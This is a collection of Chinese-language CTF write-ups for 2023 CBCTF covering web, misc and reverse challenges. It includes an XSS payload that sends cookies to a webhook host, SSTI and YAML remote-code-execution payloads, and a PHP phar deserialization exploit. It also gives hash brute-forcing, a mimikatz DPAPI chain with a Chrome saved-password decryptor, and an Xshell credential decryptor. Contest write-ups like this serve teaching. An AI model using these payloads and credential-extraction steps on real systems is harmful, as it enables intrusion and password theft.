

# 2023 CBCTF WriteUps


# Web

## BeginnerTetris

直接看源码哈


base64 解密得 flag

## Another_Signin

> 这不是道 web 题，有没有仔细看宣传海报上的内容呢？

海报上域名为 game.0rays.club

dns 解析 txt 记录

Windows:

```python
C:\Users\Administrator>nslookup -qt=TXT game.0rays.club
服务器:  dns1.hdu.edu.cn
Address:  210.32.32.1

非权威应答:
game.0rays.club text =

        "CBCTF{Txt_is_@_rea1_fl4g}"

club    nameserver = b.nic.club
club    nameserver = ns2.dns.nic.club
club    nameserver = c.nic.club
club    nameserver = a.nic.club
club    nameserver = ns1.dns.nic.club
club    nameserver = ns3.dns.nic.club
a.nic.club      internet address = 37.209.192.10
a.nic.club      AAAA IPv6 address = 2001:dcd:1::10
b.nic.club      internet address = 37.209.194.10
b.nic.club      AAAA IPv6 address = 2001:dcd:2::10
c.nic.club      internet address = 37.209.196.10
c.nic.club      AAAA IPv6 address = 2001:dcd:3::10
ns1.dns.nic.club        internet address = 156.154.144.215
ns1.dns.nic.club        AAAA IPv6 address = 2610:a1:1071::d7
ns2.dns.nic.club        internet address = 156.154.145.215
ns2.dns.nic.club        AAAA IPv6 address = 2610:a1:1072::d7
ns3.dns.nic.club        internet address = 156.154.159.215
ns3.dns.nic.club        AAAA IPv6 address = 2610:a1:1073::d7
```

Linux:

```python
root@virtual-machine:~$ dig game.0rays.club txt

; <<>> DiG 9.16.1-Ubuntu <<>> game.0rays.club txt
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 11488
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;game.0rays.club.               IN      TXT

;; ANSWER SECTION:
game.0rays.club.        278     IN      TXT     "CBCTF{Txt_is_@_rea1_fl4g}"

;; Query time: 0 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: 一 12月 11 14:01:52 CST 2023
;; MSG SIZE  rcvd: 82
```

## RealworldXSS

> 经典配方 环境不变

自上次训练题后学校又加了一层 WAF。测试可以发现基本所有的可用 attribute 均被拦截。

在 [XSS cheet-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) copy events to clipboard，使用 burpsuite Intruder 进行暴力测试。

可以找到三个 events 可用，这里使用其中 `do not require user interaction` 的 `ontoggle` 。

然后继续测试各种针对字符、组合的怪异过滤，得到弹窗 payload 如下（数据包）：

```http
photoUrl=&photoPath=&_method=PUT&file=&loginName=0&name=1&gender=0&nickName=&birthDate=&polityFaceId=5&profession=&idCard=&password=&newPassword=&repassword=&passwordQuestion=&passwordAnwser=&phone=&contactTel=&QQ=&email=&MSN=&contactAddress=&signature="</input><details/ontoggle="window.constructor.constructor('a'%2B'lert()')()"+open>1</details><input/a="&selfIntro=&remark=
```

Flag 外带 payload 数据包如下：

```http
photoUrl=&photoPath=&_method=PUT&file=&loginName=0&name=1&gender=0&nickName=&birthDate=&polityFaceId=5&profession=&idCard=&password=&newPassword=&repassword=&passwordQuestion=&passwordAnwser=&phone=&contactTel=&QQ=&email=&MSN=&contactAddress=&signature="</input><details/ontoggle="location.href='//webhook.site/67d447ee-****-****-****-5378408606bf/?'%2Bdocument['cooki'%2B'e']"+open>1</details><input/a="&selfIntro=+1&remark=
```

唤醒 `puppeteer` 坐收 flag 就好了


## CNCTF2023

> Welcome to CNCTF 2023
> 可恶，这运维是一秒都干不下去了，你来运维
>
> 本题为公共靶机，有四个地址，均相同，可任选其一
> [https://jbnrz.com.cn/](https://jbnrz.com.cn:10101/)
> [https://jbnrz.com.cn/](https://jbnrz.com.cn:10102/)
> [https://jbnrz.com.cn/](https://jbnrz.com.cn:10103/)
> [https://jbnrz.com.cn/](https://jbnrz.com.cn:10104/)

首先从给的附件中，审查 docker，发现对 data 进行了文件映射，先从 mysql 的数据库文件中读出 CTFd 的 admin 密码

- 这有很多种方法，010 直接看，或者创建一个 mysql docker 直接导入即可

```python
$bcrypt-sha256$v=2,t=2b,r=12$6lJafyh73K/pqYCF9vHMwe$Pb9EPytqNZgpbzEsgG6Qp5/mvm9PaMK
```

根据附件，进行弱口令爆破（本来打算让选手自己找 rockyou 去爆破，结果给的密码位置太中间了，第 100 多万个，爆破时间太长了，只能给定一个缩小范围的，1 万个密码），可以多线程

```python
from passlib.hash import bcrypt_sha256
from tqdm import tqdm


data = open("something.txt", "r", encoding="utf-8").read().split("\n")
for i in tqdm(data):
    if bcrypt_sha256.verify(i, "$bcrypt-sha256$v=2,t=2b,r=12$6lJafyh73K/pqYCF9vHMwe$Pb9EPytqNZgpbzEsgG6Qp5/mvm9PaMK"):
        print(i)
        exit(0)
```

得到密码为 `jozefkosmider1995`

然后就是后台的 ssti，很简单， 常规，而且很容易上车


在这个地方即可 ssti，然后去创建一个容器即可，subdomain 即为回显

- 这个地方的索引，建议自己把环境搭起来 debug 测一下

```python
container.uuid.__class__.__base__.__subclasses__()[索引多少我忘记了].__init__.__globals__["popen"]("env").read()
```

总结，这个题和我预期想出的成品差距不小，没出好，<del>别骂了别骂了别骂了</del>

## hackBeetl

> 题目描述

出题的时候还没有修，本来是要自己去挖链子的，但前几天突然有人提了 issue 了，这下真的是白给题了

[https://gitee.com/xiandafu/beetl/issues/I8RU01](https://gitee.com/xiandafu/beetl/issues/I8RU01)

用上面的 payload 打就行

ps：目前最新版还是存在绕过，可以自己尝试下

## TankTrouble

> 题目描述

js 网页小游戏，基于 websocket，对前端代码进行分析即可写出 exp

控制台运行

```javascript
var socket1 = io();
var socket2 = io();

var killerId;
var count = 0;

function start(socket, uname) {
    socket.emit("start", { name: uname });
}

socket1.on("serverState", data => {
    killerId = data.id;
    console.log(killerId)
});

socket1.on("killBroadcast", data => {
    let killer = data.killer;
    let killed = data.killed;
    console.log(`${killer} 干掉了 ${killed}`);
    count++;
    console.log(count);
});
socket1.on("getFlag", data => alert(data.flag));

start(socket1, "aaa");
start(socket2, "bbb");

setTimeout(() => {
    for(let i=0;i<600;i++) {
        socket2.emit("kill", {killer: killerId});
    }
}, 800);

setTimeout(() => socket1.emit("getFlag"),2000);
```

## Uninvited Guest

Score: 1000

考点：attribute `then` override in async function; Sandbox-like execution environment

难度：中等

Solution 1:

```yaml
then: !!js/function "function(){ spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}; spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}; spawnSync('calc')}"
```

Solution 2:

```yaml
then: !!js/function 'function then(){eval("import(\"child_process\").then(m=>m.execSync(\"calc\"))")}'
```

## ezphp

前面简单的绕过就不写了

phar 反序列化，触发 Act 类中的 include 去文件包含我们上传的 jpg 文件即可

```php
<?php

class Act {
    protected $checkAccess;
    protected $id; 
    public function __construct($checkAccess, $id)
    {
        $this->checkAccess = $checkAccess;
        $this->id = $id;
    }
}

class Con {
    public $formatters;

    public function __construct($formatters)
    {
        $this->formatters = $formatters;
    }
    
}

class Jbn{
    public $source;
    public $str;
    public $reader;
    public function __construct($source, $str, $reader) {
        $this->source = $source;
        $this->str = $str;
        $this->reader = $reader;
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$action = new Act('', '0');
$formatters = array('close' => array($action, 'run'));
$read = new Con($formatters);
$str = new Jbn('上传的文件', '', $read);
$show1 = new Jbn('', $str, '');
$show0 = new Jbn($show1, '', '');

$phar->setMetadata($show0); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
rename("./phar.phar", "./phar.jpg");
```

# Misc

## Real_Signin

> 听说空格梦到过 flag，去问他吧


私聊机器人即可，CBCTF{We1c0m3_t0_CBCTF_$njoy!!!}

## Tupper

> Another signin

很明显 544 个压缩包中的 txt 中都有一个字符，用脚本把他读取并且拼接

```python
import zipfile

result = ""
for i in range(544):
    zip_name = str(i)+".zip"
    with zipfile.ZipFile("challenge/"+zip_name,"r") as zip1:
        txt_name = str(i)+".txt"
        with zip1.open(txt_name) as file:
            result += file.read().decode("utf-8")

print(result)
```

根据题目名，上网搜索，可以得知 tupper 是个 `Tupper's Self-Referential Formula 塔珀自指公式`

根据脚本或者网上现成的网站画图(这里提供脚本)

```python
import numpy as np
import matplotlib.pyplot as plt
from PIL import Image
def Tupper_self_referential_formula(k):
    aa = np.zeros((17, 106))
    def f(x, y):
        y += k
        a1 = 2**-(-17*x - y % 17)
        a2 = (y // 17) // a1
        return 1 if a2 % 2 > 0.5 else 0
    for y in range(17):
        for x in range(106):
            aa[y, x] = f(x, y)
    return aa[:, ::-1]
k = 2430300279971732586306732048042092863199653171927794467693459300972786378547280955562809687500152634692779823565763915547054401016328754101432014140582831594296812996790110355750752839700057610333643268996981237954031719229265468574678123751449120722542208774709531347763029887116238941109081309969800374434289479188925825535231559303854752686132605919041400266012842603637640293233945817633405014578138622221890849592254661917366671611371389339503282961869143217807914631796828719245587290094562044412857349315361240136183939478574056568128542
aa = Tupper_self_referential_formula(k)
plt.figure(figsize=(15, 10))
plt.imshow(aa, origin='lower')
plt.savefig("tupper.png")
img = Image.open('tupper.png')
#这里的tupper.png是个翻转的图
# 翻转
dst1 = img.transpose(Image.FLIP_LEFT_RIGHT).rotate(180)
plt.imshow(dst1)
plt.show()
```

## Google

> 还原 Google 密码，最后的 flag 是 CBCTF{密码}

给了一些 Google 的配置文件，想办法还原 Google 的密码

首先我们需要知道微软对数据有一个 DPAPI 保护的

详细可见 [https://www.cnblogs.com/zpchcbd/p/14118403.html](https://www.cnblogs.com/zpchcbd/p/14118403.html)

用户主密钥受用户密码保护，并加密保存在<SID>中，这个文件在 windows 下是默认隐藏的，在 linux 下显示


我们可以用 DPAPImk2john.py 来提取用户的哈希值（GitHub 上有）

```python
python3 DPAPImk2john.py --sid="S-1-5-21-440314382-4097440215-1133304494-1002" --masterkey="4b730283-9406-461f-ac8d-689738b97400" --context="local" > hash.txt
```


然后我们可以用 kali 中的 john 来爆破（这里 kali 自带的字典太小了，从 GitHub 上下载一个 rockyou.txt）

```python
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


> 第二遍截图的时候，发现 No password hashes left to crack (see FAQ)
> 这是已经爆破过了，可以直接 cat ~/.john/john.pot


然后对 Local State 进行一次编码

```python
import json
import base64

fh = open('Local State', 'rb')
encrypted_key = json.load(fh)

encrypted_key = encrypted_key['os_crypt']['encrypted_key']

decrypted_key = base64.b64decode(encrypted_key)

open("dec_data",'wb').write(decrypted_key[5:])
```

再使用 mimikatz 解密

```python
dpapi::masterkey /in:4b730283-9406-461f-ac8d-689738b97400 /sid:S-1-5-21-440314382-4097440215-1133304494-1002 /password:breakers /protected
```


获得了 key，接着用 key 解密 DPAPI blob 获得 AES 私钥并保存到 aes.dec

```python
dpapi::blob /masterkey:93fde93933480b9125aa4817730ad96ad5851e5d0b5c11cc70aab4e8b55ca0f426a366e5de5cc8237ec1a5f73b0d5df8c5b11a2c8409df92e2b3d34a9914781d /in:"dec_data" /out:aes.dec
```

最后我们用 AES 私钥还原密码

```python
import os
import re
import sys
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil
import csv

def get_secret_key():
    secret_key = open('aes.dec', 'rb').read()
    return secret_key

def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key):
    try:
        initialisation_vector = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, initialisation_vector)
        print(secret_key)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()
        return decrypted_pass
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.")
        return ""

def get_db_connection(chrome_path_login_db):
    try:
        return sqlite3.connect(chrome_path_login_db)
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Chrome database cannot be found")
        return None

if __name__ == '__main__':
    secret_key = get_secret_key()
    chrome_path_login_db = r"Login Data"
    conn = get_db_connection(chrome_path_login_db)
    if(secret_key and conn):
        cursor = conn.cursor()
        cursor.execute("SELECT action_url, username_value, password_value FROM logins")
        for index,login in enumerate(cursor.fetchall()):
            url = login[0]
            username = login[1]
            ciphertext = login[2]
            decrypted_password = decrypt_password(ciphertext, secret_key)
            print("Sequence: %d"%(index))
            print("URL: %s\nUser Name: %s\nPassword: %s\n"%(url,username,decrypted_password))
            print("*"*50)
            cursor.close()
            conn.close()
```


## EncodeTrick

> Just a calc system
> I banned all danger express!!!

- 审查代码发现一个关键点

```python
def challenge(input_code: str):
    code = compile(input_code, "", "exec", flags=1024)
    if check(code):
        input_code += "\n\nprint('result =', result)"
        with open("/tmp/calc.py", "w", encoding="utf-8") as w:
            w.write(input_code)
        cmd = ["timeout", "-s", "KILL", "2", "python", "/tmp/calc.py"]
        try:
            res = check_output(cmd, stderr=DEVNULL).decode().strip()
            return res
        except Exception as e:
            print(e)
            return "Exception"
    else:
        return "What are you doing???"
```

- 进行 `check` 时，内容是 `compile` 编译后的字节码，然而在执行这段代码时，并没有直接使用 eval 或 exec 函数，而是将原文件内容写入一个新文件，通过 `python xxx.py` 的方式执行，那么对于注释中的内容将无法检查（这个题目中的黑名单禁了几乎所有的操作，想正面绕过是不可能的，至少我不会）
- Python 文件头部可用 `encoding:xxx` 的方式声明该文件使用的编码类型，其中，对于 unicode_escape 和 raw_unicode_escape 将会解析转义字符

```python
# encoding: unicode_escape
#\nresult = __import__("os").popen("env").read()
```

- 这个 poc 是打不通的，请问为什么

```python
# encoding:raw_unicode_escape
#\nresult = __import__("os").popen("env").read()
```

## 大地之母

> 请找到这张图片的作者，flag 为 CBCTF{md5(作者账号名)}

- 首先 Google 识图，初步判断为珠穆朗玛峰


- 那么在谷歌地图搜索珠穆朗玛峰，这图为全景地图的一部分（随手截的


- 左上角就有作者账号信息

## JBN

> 链接：[https://pan.baidu.com/s/1erWHNl5aeh-cPOoAnRtCcA?pwd=ffnu](https://pan.baidu.com/s/1erWHNl5aeh-cPOoAnRtCcA?pwd=ffnu)
> 提取码：ffnu
> --来自百度网盘超级会员 V1 的分享

- 磁盘取证，直接 DiskGenius 查看一下磁盘（也可以用这个磁盘去启动一个虚拟机，后续也有用


- 在这个题目中提供了靶机，nc 连接后发现以下字样


- 很明显，这是个 ssh 端口，但是没有密码，猜测应该要从磁盘中找出一个密码，查看一下装了哪些东西


- 很干净的机器，能看到就装了一个 `NetSarang`，熟悉 xshell 的人一眼就能看到，不熟悉也没事，可以从构建好的虚拟机里看到


- 弱口令，password


- 进去就能看到 xshell



- 运行后能看到有个 ssh 的凭证，但是看不到密码，查找一下 xshell 的 session 文件，尝试解出明文密码

```python
C:\Users\JBN\Documents\NetSarang Computer\7\Xshell\Sessions

// 默认位置
```

- 网上搜个工具解一下即可获得密码，[https://github.com/JDArmy/SharpXDecrypt](https://github.com/JDArmy/SharpXDecrypt)
- 这块存在一个问题，因为安装的 windows 7 没有 C#的依赖，所以无法直接运行，有两个选择，把 session 单独复制出来在宿主机解密；再就是把环境配好
- 如果你直接用工具在宿主机解密是得不到密码的，如果查看过解密的代码就能知道原因（这块儿自己去看工具的源代码，很简单的
- 我因为实在不想配环境就拿 python 写了一个，（配环境究竟能不能做出来我也不知道，因为没试，我觉得还不如写代码来的快）加密很简单，就是一个 RC4

```python
from base64 import b64decode
from hashlib import sha256
from Crypto.Cipher import ARC4

sid = b"S-1-5-21-3379787759-218951813-3166628723-1000"
name = b"JBN"
pwd = b"hEmTIaYScRHT3tDqLgQnh6hlr6mbKatbTmg2a1+InOc7jyOTVUwbbZEKBIxVIXk98I1Nor4RAVzQjEuxZVI="
key1 = name[::-1] + sid
key2 = key1[::-1]
key = bytes.fromhex(sha256(key2).hexdigest())
data = b64decode(pwd)
pwd = ARC4.new(key).decrypt(data[:len(data) - 0x20])
print(pwd)
```

## Just Painting 's Revenge

首先是还原模型


netron 还原模型，并且可以得到半个 flag


网络一共三层，最多也就三个激活，可以直接爆破常见的激活函数，当然既然提示了赛博杯，所以网上搜一下这道题也可以直接知道用的是什么激活


最后还是输出图片就能得到 flag 了

# Reverse

## 原来你也玩原神

> What is your favorite Genshin Impact character?

简单题

- 查壳得到是超强壳 TMD


- 运行发现需要输入喜欢的原神角色来校验


- 直接 gdb  attach 上去检索字符串


## Misc

> What is this? I almost collapsed after learning fuzz, so I want to disgust you too.

单字节比较，直接爆破交互，难点在于 pwntools 脚本的编写<del>（bushi misc）</del>

```python
from pwn import *
import string

remote_ip = "10.0.0.158"
remote_port = 9999

known_prefix = "CBCTF{"
known_suffix = "}"
charset = string.ascii_lowercase + string.digits + "-"

def attempt_flag(test_buffer):
    
    conn = remote(remote_ip, remote_port)

    res=conn.recv()

    conn.send(test_buffer.encode())
    
    res=conn.recv().decode()

    print(res)

    conn.close()
    
    coverage = float(res.split(':')[1].strip().rstrip('%'))
    return coverage

middle_length = 43 - len(known_prefix) - len(known_suffix)
current_flag = known_prefix + '0' * middle_length + known_suffix

best_coverage = attempt_flag(current_flag)

for i in range(len(known_prefix), len(current_flag) - len(known_suffix)):
    for char in charset:
        if char == '0': 
            continue
       
        test_flag = current_flag[:i] + char + current_flag[i + 1:]
        print(test_flag)
        coverage = attempt_flag(test_flag)

        if coverage > best_coverage or coverage==100.00:
            best_coverage = coverage
            current_flag = test_flag
            print(f"New best flag: {current_flag}, Coverage: {best_coverage}%")
            break
        elif coverage < best_coverage:

            break

print(f"Final flag: {current_flag}")
```

## TIVM-Checkin

> Welcome to the magical world of virtual machine!

签到题（确信）

题目给出虚拟机模拟器源码和虚拟机代码（python list 形式）

下面解释一下虚拟机指令的反汇编，后续同系列题目不再赘述。当然不用反汇编也能做。

分析可知，任意 TIVM 虚拟机指令长度均为 3（3 * 8bytes），记这三个数值为 a1, a2, a3。虚拟机指令有三个分支：

分支 1：a2<0，则输出地址为 a1 的内存。

分支 2：a1<0，则输入一个字符，存放到地址为 a2 的内存。

分支 3：不满足分支 1 和分支 2，首先将地址为 a2 的内存减去地址为 a1 的内存，然后判断计算结果。若结果小于或等于 0，则跳转到 a3 表示的地址。

例：第一条指令为 <0, 0, 52>，由于 a1==a2，运算结果必定为 0，所以会跳转到地址 52 处。

这里有一个 trick，直接跳转指令的 a1 和 a2 均为 0，所以可以将 <0, 0, a3> 视作 jmp a3 。同时由于[0]处通常用于跳转到入口点，所以可以忽略这条语句将[0]置零的作用。

至于分支语句的判断，线性执行的语句中，a3 的值固定为当前地址 +3 。

TIVM 指令不一定对齐到 i*3，即一条指令可能出现在地址 1,2,4,5......处，为反汇编引入了一定复杂性。故完善的反汇编需要分析指令流程。将连续的指令视为一个 chunk，在分支指令结束，随后创建两个 task，分别在后一条语句（地址 +3 处）和跳转目标地址处 重复分析 chunk 的过程。

下面给出我的反编译器

```python
# tri_inst_decompiler.py
# by Arctic

import queue
from sortedcollections import SortedDict

class TriInstDecompiler:
    def __init__(self) -> None:
        self.memory = []
        self.ddec = SortedDict()
        self.tasks = queue.Queue()
        self.at_task = set()
        self.m_max = -1
    
    def _set_mem(self, mem : list[int]):
        self.memory = mem.copy()
        self.m_max = len(mem)

    def _add_task(self, addr):
        if self.at_task.__contains__(addr) or self.ddec.__contains__(addr):
            return

        self.tasks.put(addr)
        self.at_task.add(addr)

    def _get_task(self):
        t = self.tasks.get()
        self.at_task.discard(t)
        return t

    def _add_ddec(self, addr, comment):
        if self.ddec.__contains__(addr):
            print('[debug] 已存在地址0x%x' % addr)
            return
        self.ddec[addr] = comment

    def _parse_comm32(self, addr, a1, a2, a3):
        s_2 = '<invalid>'
        if a2 & 0x80000000 != 0:
            s_2 = 'put [#%x]' % a1
        elif a1 & 0x80000000 != 0:
            s_2 = 'get [#%x]' % a2
        elif a3 == addr + 3:
            s_2 = 'sub [#%x], [#%x]' % (a2, a1)
        elif a1 == 0 and a2 == 0:
            s_2 = 'jmp #%x' % a3
        else:
            s_2 = 'sub-jle [#%x], [#%x], #%x' % (a2, a1, a3)
        return s_2

    def _decompile_section(self, start):
        ip = start
        while ip + 2 < self.m_max:
            _a1 = self.memory[ip]
            _a2 = self.memory[ip + 1]
            _a3 = self.memory[ip + 2]
            _next_jump = ip + 3

            s = self._parse_comm32(ip, _a1, _a2, _a3)
            self._add_ddec(ip, s)

            if _a3 != _next_jump:
                self._add_task(_a3)
                if _a1 == _a2:  # jmp 指令，后续无需分析。
                    return
            
            ip += 3

    def _decompile_parse(self, start=0):
        self._add_task(start)
        while not self.tasks.empty():
            self._decompile_section(self._get_task())

    def _print_to_file(self, file_name : str):
        fp = open(file_name, 'w')
        
        ip = 0
        while ip < self.m_max:
            s = '0x%04x ' % ip 
            if self.ddec.__contains__(ip):
                s += self.ddec[ip]
                ip += 3
            else:
                s += 'raw #%x' % self.memory[ip]
                ip += 1
            fp.write(s)
            fp.write('\n')

        fp.close()

    # 静态反编译
    def decompile(self, mem : list[int], dest : str):
        self._set_mem(mem)
        self._decompile_parse()
        self._print_to_file(dest)
        print('[debug] decompile done')

if __name__ == '__main__':
    # inp_file = 'shelled.tricode'
    inp_file = 'helloworld.tricode'
    out_file = 'shelled.dec'

    code = eval(open(inp_file, 'r').read())

    dec = TriInstDecompiler()
    dec.decompile(code, out_file)
```

以及反汇编结果

```
0x0000 jmp #34
0x0003 raw #57
0x0004 raw #65
0x0005 raw #6c
0x0006 raw #63
0x0007 raw #6f
0x0008 raw #6d
0x0009 raw #65
0x000a raw #20
0x000b raw #74
0x000c raw #6f
0x000d raw #20
0x000e raw #43
0x000f raw #42
0x0010 raw #43
0x0011 raw #54
0x0012 raw #46
0x0013 raw #20
0x0014 raw #32
0x0015 raw #30
0x0016 raw #32
0x0017 raw #33
0x0018 raw #21
0x0019 raw #a
0x001a raw #4e
0x001b raw #6f
0x001c raw #77
0x001d raw #20
0x001e raw #67
0x001f raw #75
0x0020 raw #65
0x0021 raw #73
0x0022 raw #73
0x0023 raw #20
0x0024 raw #6d
0x0025 raw #79
0x0026 raw #20
0x0027 raw #6c
0x0028 raw #75
0x0029 raw #63
0x002a raw #6b
0x002b raw #79
0x002c raw #20
0x002d raw #6e
0x002e raw #75
0x002f raw #6d
0x0030 raw #62
0x0031 raw #65
0x0032 raw #72
0x0033 raw #3a
0x0034 put [#3]
0x0037 put [#4]
0x003a put [#5]
0x003d put [#6]
0x0040 put [#7]
0x0043 put [#8]
0x0046 put [#9]
0x0049 put [#a]
0x004c put [#b]
0x004f put [#c]
0x0052 put [#d]
0x0055 put [#e]
0x0058 put [#f]
0x005b put [#10]
0x005e put [#11]
0x0061 put [#12]
0x0064 put [#13]
0x0067 put [#14]
0x006a put [#15]
0x006d put [#16]
0x0070 put [#17]
0x0073 put [#18]
0x0076 put [#19]
0x0079 put [#1a]
0x007c put [#1b]
0x007f put [#1c]
0x0082 put [#1d]
0x0085 put [#1e]
0x0088 put [#1f]
0x008b put [#20]
0x008e put [#21]
0x0091 put [#22]
0x0094 put [#23]
0x0097 put [#24]
0x009a put [#25]
0x009d put [#26]
0x00a0 put [#27]
0x00a3 put [#28]
0x00a6 put [#29]
0x00a9 put [#2a]
0x00ac put [#2b]
0x00af put [#2c]
0x00b2 put [#2d]
0x00b5 put [#2e]
0x00b8 put [#2f]
0x00bb put [#30]
0x00be put [#31]
0x00c1 put [#32]
0x00c4 put [#33]
0x00c7 jmp #cb
0x00ca raw #0
0x00cb get [#ca]
0x00ce jmp #d2
0x00d1 raw #31
0x00d2 jmp #d7
0x00d5 raw #0
0x00d6 raw #0
0x00d7 sub [#d5], [#d5]
0x00da sub [#d5], [#ca]
0x00dd sub [#d6], [#d6]
0x00e0 sub [#d6], [#d1]
0x00e3 sub-jle [#d5], [#d6], #e9
0x00e6 jmp #348
0x00e9 sub [#d6], [#d6]
0x00ec sub-jle [#d6], [#d5], #f2
0x00ef jmp #348
0x00f2 get [#ca]
0x00f5 jmp #f9
0x00f8 raw #31
0x00f9 jmp #fe
0x00fc raw #0
0x00fd raw #0
0x00fe sub [#fc], [#fc]
0x0101 sub [#fc], [#ca]
0x0104 sub [#fd], [#fd]
0x0107 sub [#fd], [#f8]
0x010a sub-jle [#fc], [#fd], #110
0x010d jmp #348
0x0110 sub [#fd], [#fd]
0x0113 sub-jle [#fd], [#fc], #119
0x0116 jmp #348
0x0119 get [#ca]
0x011c jmp #120
0x011f raw #34
0x0120 jmp #125
0x0123 raw #0
0x0124 raw #0
0x0125 sub [#123], [#123]
0x0128 sub [#123], [#ca]
0x012b sub [#124], [#124]
0x012e sub [#124], [#11f]
0x0131 sub-jle [#123], [#124], #137
0x0134 jmp #348
0x0137 sub [#124], [#124]
0x013a sub-jle [#124], [#123], #140
0x013d jmp #348
0x0140 get [#ca]
0x0143 jmp #147
0x0146 raw #35
0x0147 jmp #14c
0x014a raw #0
0x014b raw #0
0x014c sub [#14a], [#14a]
0x014f sub [#14a], [#ca]
0x0152 sub [#14b], [#14b]
0x0155 sub [#14b], [#146]
0x0158 sub-jle [#14a], [#14b], #15e
0x015b jmp #348
0x015e sub [#14b], [#14b]
0x0161 sub-jle [#14b], [#14a], #167
0x0164 jmp #348
0x0167 get [#ca]
0x016a jmp #16e
0x016d raw #31
0x016e jmp #173
0x0171 raw #0
0x0172 raw #0
0x0173 sub [#171], [#171]
0x0176 sub [#171], [#ca]
0x0179 sub [#172], [#172]
0x017c sub [#172], [#16d]
0x017f sub-jle [#171], [#172], #185
0x0182 jmp #348
0x0185 sub [#172], [#172]
0x0188 sub-jle [#172], [#171], #18e
0x018b jmp #348
0x018e get [#ca]
0x0191 jmp #195
0x0194 raw #34
0x0195 jmp #19a
0x0198 raw #0
0x0199 raw #0
0x019a sub [#198], [#198]
0x019d sub [#198], [#ca]
0x01a0 sub [#199], [#199]
0x01a3 sub [#199], [#194]
0x01a6 sub-jle [#198], [#199], #1ac
0x01a9 jmp #348
0x01ac sub [#199], [#199]
0x01af sub-jle [#199], [#198], #1b5
0x01b2 jmp #348
0x01b5 sub [#0], [#0]
0x01b8 jmp #1bc
0x01bb raw #47
0x01bc put [#1bb]
0x01bf jmp #1c3
0x01c2 raw #72
0x01c3 put [#1c2]
0x01c6 jmp #1ca
0x01c9 raw #65
0x01ca put [#1c9]
0x01cd jmp #1d1
0x01d0 raw #61
0x01d1 put [#1d0]
0x01d4 jmp #1d8
0x01d7 raw #74
0x01d8 put [#1d7]
0x01db jmp #1df
0x01de raw #21
0x01df put [#1de]
0x01e2 jmp #1e6
0x01e5 raw #20
0x01e6 put [#1e5]
0x01e9 jmp #1ed
0x01ec raw #48
0x01ed put [#1ec]
0x01f0 jmp #1f4
0x01f3 raw #65
